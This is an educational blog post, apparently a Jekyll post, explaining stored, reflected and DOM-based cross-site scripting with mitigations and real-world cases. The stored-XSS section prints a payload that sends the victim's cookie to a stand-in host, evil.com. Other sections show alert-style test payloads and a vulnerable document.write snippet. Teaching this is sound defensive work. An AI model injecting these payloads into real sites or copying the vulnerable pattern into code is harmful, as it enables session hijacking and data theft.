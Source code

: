 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-31
layout: post
tag: [OWASP, Web Security, XSS]
---
```


<div style="max-width: 900px; margin: auto; padding: 20px;">

<!-- Table of Contents -->
<div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">
<strong>Table of Contents</strong>
<ul>
  <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
  <li><a href="#types-of-xss">Types of XSS</a>
    <ul>
      <li><a href="#1-stored-xss">1. Stored XSS</a></li>
      <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
      <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
    </ul>
  </li>
  <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
  <li><a href="#real-world-examples">Real-World Examples</a></li>
  <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
  <li><a href="#conclusion">Conclusion</a></li>
  <li><a href="#references">References</a></li>
</ul>
</div>

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

---

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**

1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.  
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.  
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload & Mitigation:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>

Mitigation: Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).

### 2. Reflected XSS
Definition:
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

How it works:

Attacker crafts a malicious link containing JavaScript code in a parameter.

Victim clicks the link and sends a request to the vulnerable application.

The application reflects the malicious input in its response, which the browser executes.

Example payload & Mitigation:

https://example.com/search?q=<script>alert('XSS')</script>

Mitigation: Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

### 3. DOM-Based XSS
Definition:
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

How it works:

Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.

The vulnerable JavaScript code inserts this data directly into the page without escaping.

The browser executes the malicious code.

Example vulnerable code, attack URL & Mitigation:

// Vulnerable code:
document.write(location.hash);

// Attack URL:
https://example.com/page#<script>alert('XSS')</script>

Mitigation: Avoid dangerous DOM manipulation methods like document.write() and innerHTML with untrusted data; use safe DOM APIs like textContent or setAttribute(); sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

## How XSS Attacks Work
Injection: The attacker injects malicious JavaScript into a vulnerable page.

Execution: The victim’s browser renders the page and runs the script.

Impact: The attacker can steal session cookies, perform actions as the user, or spread malware.


## Real-World Examples
MySpace Samy Worm (2005): A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.

British Airways Breach (2018): Malicious JavaScript was injected to steal payment details from thousands of customers.

General Mitigation Strategies
Validate and sanitize all user inputs on both client and server.

Use context-specific output encoding.

Enforce a strong Content Security Policy (CSP).

Avoid unsafe JavaScript functions and DOM manipulation methods.

Use security features provided by frameworks.

Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

## Conclusion
XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

## References
OWASP: Cross-Site Scripting (XSS)

PortSwigger: XSS Cheat Sheet


